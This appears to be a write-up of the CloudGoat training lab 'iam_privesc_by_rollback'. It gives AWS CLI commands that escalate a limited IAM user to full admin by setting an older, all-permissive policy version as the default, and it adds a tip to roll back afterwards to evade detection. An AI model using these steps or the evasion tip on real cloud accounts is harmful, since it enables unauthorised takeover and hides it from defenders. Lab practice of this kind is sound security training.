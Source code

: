 # IAM prvilege Escalation
The goal of this scenario is to use a access limited user to escalate their privileges to full admin privileges.

## Installation
```./cloudgoat.py create iam_privesc_by_rollback```

## Scenario Walkthrough
### Assume Role Raynor
Add raynor into the AWS CLI profiles and login as the user
```
aws configure --profile raynor
<Add access key, secret access key, region and text as output>
aws sts get-caller-identity 
.. arn:aws:iam::<account number>:user/<username> ...
```

### Identify permissions tied with Raynor
1. List permissions
```
aws iam list-attached-user-policies --user-name <username> --profile raynor
```
We see that 1 policy is associated with the user. Note that using list-user-policies will not see previous versions of the policy.
2. Enumerate policy versions
```
aws iam list-policy-versions --policy-arn <policy arn> --profile raynor
Search for True as the current version.
```
We can see that there are 5 versions of the policy.
3. List the most current version
```
aws iam get-policy-version --policy-arn <policy arn> --profile raynor --version-id v1 --output json
{
    "PolicyVersion": {
        "Document": {
            "Statement": [
                {
                    "Action": [
                        "iam:Get*",
                        "iam:List*",
                        "iam:SetDefaultPolicyVersion"
                    ],
                    "Effect": "Allow",
                    "Resource": "*",
                    "Sid": "IAMPrivilegeEscalationByRollback"
                }
            ],
            "Version": "2012-10-17"
        },
        "VersionId": "v1",
        "IsDefaultVersion": true,
        "CreateDate": "2023-04-20T03:37:16+00:00"
    }
}
```
We see that we can set a default version policy. Hence we will search for a version that allows administrative privileges.

### Privilege Escalate
1. Identify versions that have administrative privileges
```
aws iam get-policy-version --policy-arn <policy arn> --profile raynor --version-id v2 --output json
{
    "PolicyVersion": {
        "Document": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Action": "*",
                    "Effect": "Allow",
                    "Resource": "*"
                }
            ]
        },
        "VersionId": "v2",
        "IsDefaultVersion": false,
        "CreateDate": "2023-04-20T03:37:19+00:00"
    }
}
```
Thus, we can use the above version for the default policy
2. Set default policy
```
aws iam set-default-policy-version --policy-arn <policy arn> --profile raynor --version-id v2
```
3. In an actual scenario, once you have executed your actions you can revert back to the original policy to evade detection
```
aws iam set-default-policy-version --policy-arn <policy arn> --profile raynor --version-id v1
```
## References
You can refer to the challenge here: https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/iam_privesc_by_rollback/README.md